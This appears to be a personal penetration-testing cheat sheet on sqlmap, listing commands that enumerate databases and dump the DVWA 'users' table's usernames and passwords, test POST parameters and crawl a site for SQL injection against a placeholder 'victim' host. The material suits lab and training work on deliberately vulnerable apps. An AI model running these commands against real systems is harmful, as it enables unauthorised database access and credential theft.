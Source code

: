 ```yaml
---
Description: Tools used to automate the process of finding SQL injection vulnerabilities
URL: https://sqlmap.org/
---
```


![](../../zzz_res/attachments/sqlmap.png)

### Enumerating the DBMS

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" --dbs
```

### Dumping Tables, Columns and Data

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa --tables
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users -C user,password --dump
```

### Testing POST parameters

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/" --data="id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
```

### Automatic crawl and SQLi test

```bash
$ sqlmap -u "http://victim/.it" --crawl=1 --batch --threads=5
```